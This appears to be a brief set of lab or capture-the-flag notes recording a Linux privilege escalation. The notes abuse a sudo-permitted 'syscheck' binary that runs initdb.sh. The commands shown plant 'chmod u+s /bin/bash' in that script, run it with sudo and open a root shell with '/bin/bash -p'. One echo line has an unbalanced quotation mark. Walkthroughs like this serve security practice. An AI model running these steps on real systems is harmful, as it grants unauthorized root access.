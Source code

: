 sudo -l shows syscheck bin
- Syscheck has vuln since it reads and executes file content
- Syscheck need initdb.sh
- `echo "chmod u+s /bin/bash >initdb.sh`
- `chmod +x initdb.sh`
- `sudo /usr/bin/syscheck`
- `ls -la /bin/bash`
- `/bin/bash -p`
![[Screenshots/Pasted image 20240513131008.png]]
